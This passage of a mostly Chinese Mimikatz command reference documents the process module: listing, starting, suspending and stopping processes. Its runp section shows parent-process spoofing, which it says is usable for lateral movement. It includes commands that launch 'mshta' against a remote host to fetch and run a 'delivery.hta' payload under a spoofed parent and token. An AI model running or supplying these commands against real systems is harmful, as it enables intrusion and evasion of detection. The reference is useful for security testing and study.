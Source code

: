 mimikatz # process::exports /pid:3516
```

## imports

> lists all the imported functions from the DLLs each running process is using. If a```/pid``` is not specified, then imports for mimikatz.exe will be displayed. 

```
mimikatz # process::imports
```

## list

列出所有运行的进程
```
mimikatz # process::list
```

## resume
 通过使用NtResumeProcess Windows Native API函数恢复一个暂停的进程。
```
mimikatz # process::resume notepad /pid:9212
```

## run

通过使用CreateProcessAsUser Win32 API函数创建一个进程。CreateEnvironmentBlock也被利用了

```
mimikatz # process::run notepad
```

## runp
在一个父进程下运行一个子进程（默认的父进程是LSASS.exe）。它也可用于横向移动和进程欺骗。
```
mimikatz # process::runp /run:notepad.exe

mimikatz # process::runp /run:notepad.exe /ppid:6388   #指定进程

mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948   # mshta攻击负载执行

mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948 /token:1  # 在指定令牌下执行mshta有效负载
```

## start

通过使用CreateProcess Win32 API函数启动一个进程。该进程的PID也被显示出来
```
mimikatz # process::start notepad.exe
```

## stop
 通过使用NtTerminateProcess Windows Native API函数终止一个进程。
```
mimikatz # process::stop notepad /pid:6500
```

## suspend
通过使用NtSuspendProcess Windows Native API函数暂停一个进程。
```
mimikatz # process::suspend notepad /pid:9212
```


# token
```